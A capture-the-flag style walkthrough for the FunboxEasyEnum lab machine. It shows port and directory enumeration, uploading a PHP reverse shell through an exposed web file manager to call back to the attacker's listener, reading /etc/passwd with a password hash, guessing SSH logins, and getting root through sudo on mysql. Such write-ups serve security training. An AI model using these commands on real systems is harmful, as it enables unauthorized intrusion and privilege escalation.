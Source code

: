 Exploitation Guide for FunboxEasyEnum Summary

In this walkthrough, we’ll exploit a file upload vulnerability in a web application to gain a foothold on the target. This leads to remote code execution. We’ll then use simple, manual password guessing to escalate our privileges and abuse the user’s sudo permissions on the mysql binary to spawn a root shell. Enumeration Nmap

We’ll begin with a simple nmap scan.

sudo nmap 192.168.120.148
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-16 10:27 EST Nmap scan report for 192.168.120.148 Host is up (0.036s latency). Not shown: 998 closed ports PORT STATE SERVICE 22/tcp open ssh 80/tcp open http

If we browse the web server on port 80, we find a default Apache web page. GoBuster

Next, we’ll try brute-forcing the web server’s hidden files and directories with the /usr/share/dirb/wordlists/common.txt wordlist, searching for PHP, text, and HTML files.

(kali㉿kali)-[~] $ gobuster dir -u http://192.168.120.148 -w /usr/share/dirb/wordlists/common.txt -x php,txt,html

=============================================================== Gobuster v3.0.1 ... /index.html (Status: 200) /javascript (Status: 301) /mini.php (Status: 200) /phpmyadmin (Status: 301) /robots.txt (Status: 200) ...

The output includes mini.php which contains a custom Zerion Mini Shell 1.0 application.

Exploitation File Upload Vulnerability

This page may allow uploads to the web root (/var/www/html/). Since the PHP file format seems to be supported, let’s try uploading a PHP reverse shell. We’ll update the IP address and port number as needed.

cp /usr/share/webshells/php/php-reverse-shell.php .

sed -i "s/$ip = '127.0.0.1';/$ip = '192.168.118.5';/g" php-reverse-shell.php

sed -i "s/$port = 1234;/$port = 4444;/g" php-reverse-shell.php

Next, we’ll click Browse, select our reverse shell file, and click upload. Once uploaded, the file appears in the web root directory listing. Let’s start a Netcat listener on port 4444 and trigger our shell by navigating to http://192.168.120.148/php-reverse-shell.php.

curl http://192.168.120.148/php-reverse-shell.php
WARNING: Failed to daemonise. This is quite common and not fatal. Successfully opened reverse shell to 192.168.118.5:4444 ...

Our Netcat listener presents us with a shell as the www-data user.

nc -nlvp 4444 listening on [any] 4444 ... connect to [192.168.118.5] from (UNKNOWN) [192.168.120.148] 34362 Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux 15:54:03 up 25 min, 0 users, load average: 0.00, 0.00, 0.00 USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT uid=33(www-data) gid=33(www-data) groups=33(www-data) /bin/sh: 0: can't access tty; job control turned off $ id uid=33(www-data) gid=33(www-data) groups=33(www-data)

Escalation User Enumeration

As part of our enumeration efforts, let’s check the user accounts on the target:

$ cat /etc/passwd root
0:0:root:/root:/bin/bash ... karla
1000:1000:karla:/home/karla:/bin/bash ... harry
1001:1001:,,,:/home/harry:/bin/bash sally
1002:1002:,,,:/home/sally:/bin/bash goat
1003:1003:,,,:/home/goat:/bin/bash oracle:$1$|O@GOeN$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash lissy
1005:1005::/home/lissy:/bin/sh

Although the file contains the password hash for the user oracle, cracking that password finds hiphop , but not further for privesc.

The passwd file contains several users, and every user, except for lissy, has a home directory:

$ ls -l /home total 20 drwxr-xr-x 2 goat goat 4096 Feb 16 13:25 goat drwxr-xr-x 2 harry harry 4096 Jan 28 12:03 harry drwxr-xr-x 2 karla karla 4096 Feb 16 13:23 karla drwxr-xr-x 2 oracle oracle 4096 Feb 16 13:23 oracle drwxr-xr-x 2 sally sally 4096 Jan 28 12:03 sally

SSH

We could use a tool like hydra to mount an online SSH brute-force attack (which will take several minutes), but let’s take a step back and try some less-complicated password attempts. We’ll begin by attempting the username as the password for each user. Here are the username and password pairs we’ll attempt:

goat:goat harry:harry karla:karla oracle:oracle sally:sally

One of the credential pairs (goat:goat) works!

ssh goat@192.168.120.148 goat@192.168.120.148's password: Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-117-generic x86_64) ... goat@funbox7:~$ id uid=1003(goat) gid=1003(goat) groups=1003(goat),111(ssh)

Sudo Abuse

Now, let’s attempt to escalate our privileges. We’ll begin with a quick sudo scan:

goat@funbox7:~$ sudo -l Matching Defaults entries for goat on funbox7: env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User goat may run the following commands on funbox7: (root) NOPASSWD: /usr/bin/mysql

The scan reveals that we can run /usr/bin/mysql as root through sudo. A GTFOBins article presents a simple command that may give us a root shell.

goat@funbox7:$ whoami goat goat@funbox7:$ sudo /usr/bin/mysql -e '! /bin/sh'

whoami
root
